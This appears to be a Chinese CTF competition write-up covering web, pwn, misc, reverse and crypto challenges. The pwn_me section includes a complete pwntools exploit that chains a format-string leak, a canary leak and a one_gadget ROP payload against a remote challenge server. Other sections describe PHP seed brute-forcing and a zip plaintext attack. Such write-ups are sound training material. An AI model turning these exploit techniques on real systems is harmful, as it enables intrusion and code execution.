web 枯燥的抽奖 首先用strpos计算出随机数值，并且弄好格式

再直接将该结果复制给php_mt_seed进行爆破

然后再回去把种子带入就可以得到字符串了

最后输回去并提交就get flag了√
pwn 史上最简单的pwn 这道题是一道c++的。。。不会分析，只知道只能写0x20个字节，随便试了下分析结果，发现输入存在I的时候会把I替换为pretty，所以利用这个可以达到栈溢出的目的。然后就是libc的问题。。。本地很远程爆的不太一样。。。直接LibcSearcher了：
宇宙无敌难搞 简单的栈溢出，就是覆盖的时候会覆盖到索引的值，所以可以直接把索引修改为ret地址就行了：

pwn_me 这道题首先得去壳：upx -d pwn_me，然后就是各种检查绕过了
1.利用格式化字符串漏洞先泄漏pie，然后再向0x202010处写入’w’
2.填充0x259字符来获取到canary
3.输入0x80000000来绕过检查
4.构造payload，使其满足条件
最终exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 from pwn import *context.log_level = 'debug' libc = ELF('/lib/x86_64-linux-gnu/libc.so.6' ) one = [0x45216 ,0x4526a ,0xf02a4 ,0xf1147 ] p = remote('183.129.189.60' ,10027 ) p.recvuntil('please input the secret key~' ) p.sendline('[m]' ) p.recvuntil('enter' ) p.sendline('1' ) p.recvuntil('say' ) p.sendline('%14$p' ) p.recvuntil('0x' ) pie = int(p.recvline()[:-1 ],16 )-0x183d p.recvuntil('again' ) pay1 = '%119c%8$na%21$pa' +p64(pie+0x202010 ) print len(pay1)p.sendline(pay1) p.recvuntil('0x' ) a = int(p.recvuntil('a' )[:-1 ],16 ) libc_base = a-240 -libc.sym['__libc_start_main' ] print hex(libc_base)p.recvuntil('magic' ) p.sendline(str(0x259 )) p.recvuntil('dream' ) p.sendline('a' *0x259 ) p.recvuntil('a' *0x258 ) canary = u64(p.recv(8 ).ljust(8 ,'\x00' ))-ord('a' ) print hex(canary)p.recvuntil('hat is this?!' ) p.sendline(str(0x80000000 )) pay2 = 'a' *0x258 +p64(canary)+'a' *8 +p64(one[1 ]+libc_base) b = '' for i in range(len(pay2)): if i == 88 : b += '\x5a' elif i == 127 : b += '\x58' elif i == 137 : b += '\x5a' elif i == 154 : b += '\x6c' else : b += pay2[i] p.sendline(b) p.interactive()
shellcode strlen的00截断问题，构造下可见字符开头再加上00的指令就行了(这里用了push 0)，另外这道题无法直接getshell，所以找了个直接读flag的：
misc math 简单的计算题，直接提取后eval计算就行了

fun 猜拳游戏。。。之前字节跳动的比赛也有，。。直接上writeup

听说你想要平均值 这道题首先就是从png文件中提取出一个无加密的压缩包，CRC和flag.zip一样，直接明文攻击（参考https://www.cnblogs.com/leixiao-/p/9824557.html）
然后后面解压的除了出来第一个是
中13600的一半6800的base64编码，再继续解压出来的密码就是here.txt里的数字进行base64编码了，上脚本√

re babyvm 讲实话，这道题有点难，刚开始还被拐歪了。。。真正的密文应该是这里

然后再进行逆运算就好了

pyre 先放到http://tool.lu/pyc/反编译，得到密文，以及加密方法，直接逆推就行了：

crypto warmup 首先用脚本过前面的md5，然后再用login得到前面，计算出x，然后再签admin即可（ps：另外几个函数照抄就行）：
